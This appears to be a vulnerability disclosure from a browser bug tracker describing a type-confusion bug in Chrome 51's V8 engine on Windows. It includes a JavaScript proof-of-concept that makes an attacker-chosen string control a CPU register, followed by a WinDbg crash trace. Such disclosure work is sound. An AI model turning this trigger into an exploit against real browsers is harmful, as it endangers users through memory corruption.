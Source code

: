 <b>VULNERABILITY DETAILS</b>
Attacker can control a register value when it crashes.
It seems that a pointer is overwritten by an other
pointer that has a different object type.

<b>VERSION</b>
51.0.2704.63 (stable 32bit)
Windows 10
V8 5.1.281.47

<b>REPRODUCTION CASE</b>
--------------------------- js code -----------------
this.__defineSetter__("x", function(){});
function go (y = (function rec(a1, a2) {
    // The position of "AAAA" controls a register value.
    if (a1.length == a2) { b = "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCAAAA"; }
    rec(a1, a2 + 1);
})([,], 0)
        , b = eval("")
        )
{}
go(x);
--------------------------------------------------------

Attacker can control the ebx register in the following asm code:
  mov     ecx,dword ptr [ebx+edx*2+7].

(5c78.4e64): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
1370e3a0 8b4c5307        mov     ecx,dword ptr [ebx+edx*2+7] ds:002b:41414154=????????
0:000:x86> dd ebx
41414141  ???????? ???????? ???????? ????????
